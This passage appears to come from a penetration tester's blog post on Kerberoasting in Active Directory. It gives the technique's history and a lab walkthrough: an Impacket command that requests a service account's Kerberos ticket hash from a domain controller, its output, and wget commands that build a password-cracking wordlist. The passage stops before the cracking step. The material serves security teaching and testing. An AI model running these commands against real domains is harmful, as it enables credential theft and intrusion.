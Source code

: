 ```
level: low
```

## Kerberoasting

Kerberoasting is an abuse of legitimate behavior within the Kerberos protocol. At a high level, it allows an attacker to obtain the password hash of a service account for offline cracking. It is a technique that has been a staple for my AD-focused Campaigns. Aside from a couple of engagements, Kerberoasting has provided me with access to high value service accounts that directly related to my objective. Although most passwords can be cracked with a good enough cracking rig, I have found that weak passwords for service accounts are pervasive across organizations. As such, this technique isn't going away anytime soon.

### Attack History

Tim Medin introduced the [kerberoasting](https://www.youtube.com/watch?v=PUyhlN-E5MU) technique in 2014 and, since then, numerous tools have come out to make the attack easier. Detection for the technique became prevalent soon after Tim's presentation. Like the other techniques mentioned in this post, Kerberoasting is nothing new or novel, yet it's still effective.

### Execution

In my example, I'll be attacking an IIS service account in my AD lab. To do this, I'll first start by using Impacket to obtain the password hash for that account.

```
$ python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py lab.domain/myuser -request-user "IIS_002" -dc-ip "10.10.3.131"

Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
ServicePrincipalName            Name     MemberOf  PasswordLastSet             LastLogon  Delegation
------------------------------  -------  --------  --------------------------  ---------  ----------
SMTP_DNE/winsrv.lab.domain:25   IIS_002            2020-10-11 10:25:31.765026  <never>
SSH_DNE/winsrv.lab.domain:22    IIS_002            2020-10-11 10:25:31.765026  <never>
KRB_DNE/winsrv.lab.domain:88    IIS_002            2020-10-11 10:25:31.765026  <never>
FTP_DNE/winsrv.lab.domain:21    IIS_002            2020-10-11 10:25:31.765026  <never>
MSSQL_DNE/winsrv.lab.domain:80  IIS_002            2020-10-11 10:25:31.765026  <never>
IIS_002/winsrv.lab.domain:80    IIS_002            2020-10-11 10:25:31.765026  <never>

$krb5tgs$23$*IIS_002$lab.domain$IIS_002/winsrv.lab.domain~80*$REALLYLONGHASH
```

With that hash, I'll build a wordlist for cracking. Make sure to build a robust wordlist, and customize it for your target organization.

```
$ wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/10k-most-common.txt -O wordlist.txt
$ wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/100k-most-used-passwords-NCSC.txt -O tmp_list.txt; cat tmp_list.txt >> wordlist.txt
$ wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/best1050.txt -O tmp_list.txt; cat tmp_list.txt >> wordlist.txt
$ wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/common-passwords-win.txt -O tmp_list.txt; cat tmp_list.txt >> wordlist.txt
$ wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/top-passwords-shortlist.txt -O tmp_list.txt; cat tmp_list.txt >> wordlist.txt
$ wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt -O tmp_list.txt; cat tmp_list.txt >> wordlist.txt
$ cat wordlist.txt | sort -u > wordlist_final.txt
```
